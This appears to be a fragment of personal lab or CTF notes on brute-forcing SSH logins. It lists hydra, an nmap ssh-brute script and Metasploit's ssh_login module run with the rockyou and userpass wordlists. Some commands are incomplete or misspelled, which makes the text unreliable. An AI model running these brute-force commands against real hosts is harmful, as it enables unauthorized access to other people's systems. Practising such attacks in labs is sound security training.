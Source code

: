 gzip -d rockyou.txt 

hydra -l student -P txt IP ssh 

ssh student @IP

echo "administrator" > users

--script ssh-brute --script-args userdb=/root/users

msfconsole
ssh/ssh_login 
/usr/share/wordlist/metsaplot/root_userpass.txt
set stop on success to true

